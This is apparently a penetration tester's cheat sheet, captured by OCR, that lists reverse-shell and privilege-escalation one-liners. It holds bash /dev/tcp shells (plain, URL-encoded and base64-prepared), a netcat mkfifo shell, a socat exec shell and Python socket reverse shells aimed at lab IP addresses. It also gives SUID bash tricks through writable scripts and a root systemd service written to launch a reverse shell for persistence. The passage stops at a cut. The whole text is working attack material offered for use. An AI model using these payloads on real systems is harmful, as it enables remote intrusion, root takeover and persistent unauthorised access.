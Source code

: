 ```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
echo -n '/bin/bash -c "bin/bash -i >& /dev/tcp/192.168.45.176/80 0>&1"' | base64

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# this copies /bin/bash with SUID privilege! pretty useful(must be run with -p option so keep the privilege)
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
/tmp/0xdf -p

# just add +s
echo "chmod +s /bin/bash" > /tmp/root.sh
/bin/bash -p

# socat??
socat TCP:192.168.118.8:18000 EXEC:sh

# when we can't use vi or mousepad(very useful)
cat << EOF > /home/cmeeks/reverse.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.202/80 0>&1
EOF

# When we need to edit file with terminal
cat << EOF > /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOF

++++++++++++++++ ruby reverse shell ++++++++++++++++++++++++++++++++++++++++++++
echo 'system("chmod +s /bin/bash")' > app.rb



++++++++++++++++ Python reverse shell ++++++++++++++++++++++++++++++++++++++++++++

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.x",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.x",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# When escaping double quotes
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'

# When using os
```